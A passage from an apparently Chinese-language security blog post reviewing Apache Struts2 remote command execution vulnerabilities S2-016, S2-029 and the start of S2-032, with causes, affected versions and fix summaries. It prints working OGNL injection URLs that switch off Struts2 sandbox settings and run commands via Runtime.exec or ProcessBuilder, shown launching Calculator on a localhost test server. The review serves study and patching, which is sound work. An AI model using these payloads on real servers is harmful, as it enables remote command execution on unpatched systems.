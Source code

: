 `DefaultActionMapper` 类支持以 `action:`，`redirect:` 和 `redirectAction:` 作为访问前缀，前缀后面可以跟 OGNL 表达式，由于 Struts2 未对其进行过滤，导致任意 Action 可以使用这些前缀执行任意 OGNL 表达式，从而导致任意命令执行，经测试发现 `redirect:` 和 `redirectAction:` 这两个前缀比较好容易构造出命令执行的 Payload（转义后）：

{% raw %}
    http://localhost:8080/S2-016/default.action?redirect:${%23context['xwork.MethodAccessor.denyMethodExecution']%3Dfalse,%23f%3D%23_memberAccess.getClass().getDeclaredField('allowStaticMethodAccess'),%23f.setAccessible(true),%23f.set(%23_memberAccess,true),@java.lang.Runtime@getRuntime().exec('open%20%2fApplications%2fCalculator.app')}
    
    或者
    
    http://localhost:8080/S2-016/default.action?redirectAction:%25{(new+java.lang.ProcessBuilder(new+java.lang.String[]{'open','/Applications/Calculator.app'})).start()}

![]({{ site.url }}/public/img/article/2016-05-06-review-struts2-remote-command-execution-vulnerabilities/10.png)
{% endraw %}

### S2-029

> 官方链接：[https://struts.apache.org/docs/s2-029.html](https://struts.apache.org/docs/s2-029.html)
> 
> 影响版本：Struts 2.0.0 - Struts 2.3.16
> 
> 修复摘要：限制传入标签属性的值，对其进行合规的正则验证

简单的说就是当开发者在模版中使用了类似如下的标签写法时，后端 Struts2 处理时会导致二次 OGNL 表达式执行的情况：

```
<s:textfield name="%{message}"></s:textfield>
```

这里需要注意的是，仅当只有 `name` 属性这样写的情况下才能触发 OGNL 表达式执行，并且该标签中不能显示写有 `value` 属性。详细分析可参考天融信阿尔法实验室的张萌所写的[《struts2漏洞s2-029分析》](http://blog.topsec.com.cn/ad_lab/struts2漏洞s2-029分析/)

到 S2-029 这里是，Struts2 已经增加了相当多的安全检测了，所以想要直接执行命令还需要通过修改这些安全参数来绕过最后的执行检测，具体的安全参数版本差异同样可参考上面的详细分析文章。

下面测试环境使用的是 `Struts 2.3.24.1`：

    http://localhost:8080/S2-029/default.action?message=(%23_memberAccess['allowPrivateAccess']=true,%23_memberAccess['allowProtectedAccess']=true,%23_memberAccess['excludedPackageNamePatterns']=%23_memberAccess['acceptProperties'],%23_memberAccess['excludedClasses']=%23_memberAccess['acceptProperties'],%23_memberAccess['allowPackageProtectedAccess']=true,%23_memberAccess['allowStaticMethodAccess']=true,@java.lang.Runtime@getRuntime().exec('open /Applications/Calculator.app'))

![]({{ site.url }}/public/img/article/2016-05-06-review-struts2-remote-command-execution-vulnerabilities/12.png)

（前面提到在 S2-015 Struts 2.3.14.2 中已经删除了 `setAllowStaticMethodAccess` 方法导致无法直接赋值，但是在该测试环境中却又可以直接对 `_memberAccess['allowStaticMethodAccess']` 进行赋值了，表示有点疑惑，希望有明白的同学告知我一下）

### S2-032

> 官方链接：[https://struts.apache.org/docs/s2-032.html](https://struts.apache.org/docs/s2-032.html)
> 
> 影响版本：Struts 2.3.20 - Struts 2.3.28 (except 2.3.20.3 and 2.3.24.3)
> 
> 修复摘要：过滤通过 method: 传入的 action 名称，限制其字符范围 protected Pattern allowedActionNames = Pattern.compile(“[a-zA-Z0-9._!/\\-]*”);
